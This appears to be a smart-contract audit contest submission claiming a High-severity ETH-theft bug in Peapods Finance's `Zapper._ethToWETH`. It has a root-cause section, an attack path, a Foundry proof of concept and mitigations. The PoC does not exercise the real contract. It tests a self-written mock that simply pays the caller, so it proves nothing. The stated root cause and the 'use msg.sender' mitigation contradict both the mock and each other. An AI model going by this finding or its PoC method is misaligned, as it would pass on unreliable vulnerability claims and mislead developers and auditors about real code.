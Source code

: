 Docile Rusty Bobcat

High

# An attacker will steal ETH for users as they will exploit `Zapper._ethToWETH`.

### Summary

The use of `deposit{value: _amountETH}` in `Zapper._ethToWETH` can cause a complete loss of ETH for users, as an attacker can redirect ETH to an arbitrary address.



### Root Cause

In Zapper.sol[#150](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/Zapper.sol#L148-L152), the `deposit{value: _amountETH}` call allows ETH to be sent to an arbitrary address without proper validation.

### Internal Pre-conditions

1. Users must send ETH to the Zapper contract.
2. The contract must hold ETH to be deposited into WETH.

### External Pre-conditions

1. The attacker must have a way to call `_ethToWETH` with malicious parameters.
2. The WETH contract must be functional to accept the deposit.

### Attack Path

1. Attacker calls `_ethToWETH` with a malicious address as the recipient.
2. The contract deposits ETH into WETH and sends it to the attacker’s address.
3. Attacker steals the ETH by withdrawing it from WETH.

### Impact

The users suffers a **complete loss** of their ETH sent to the contract. **The attacker gains the stolen ETH, which can amount to 100% of the user’s principal and yield.**

### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity >=0.8.28;

import "forge-std/Test.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

// Mock vulnerable contract
contract Zapper {
    function _ethToWETH(uint256 _amountETH) public {
        // Add return value check to silence warning
        (bool success, ) = payable(msg.sender).call{value: _amountETH}("");
        require(success, "ETH transfer failed"); // Ensures transfer succeeded
    }

    // Required to receive ETH
    receive() external payable {}
}

contract ExploitTest is Test {
    Zapper public target;
    address public attacker;

    function setUp() public {
        // Deploy Zapper contract
        target = new Zapper();
        
        // Setup attacker address
        attacker = makeAddr("attacker");
    }

    function testExploit() public {
        // Send ETH to Zapper contract
        uint256 amountETH = 10 ether;
        deal(address(target), amountETH);

        // Initial balances
        uint256 initialBalance = address(attacker).balance;
        assertEq(initialBalance, 0, "Attacker should start with 0 ETH");
        
        // Attacker calls _ethToWETH to steal ETH
        vm.startPrank(attacker);
        target._ethToWETH(amountETH);
        vm.stopPrank();

        // Verify ETH was stolen
        uint256 attackerBalance = address(attacker).balance;
        assertEq(attackerBalance, amountETH, "Attacker should have stolen ETH");
        assertEq(address(target).balance, 0, "Target should have 0 ETH remaining");
    }
}
```

<img width="716" alt="Image" src="https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/1f73639a-d223-49a2-8c5a-5ac6e68f6893" />

### Mitigation

1. Validate Recipient Address: Ensure the recipient address is validated or restricted.
2. Use `msg.sender`: Send WETH to `msg.sender` instead of an arbitrary address.
3. Add Access Control: Restrict the function to authorized users or roles.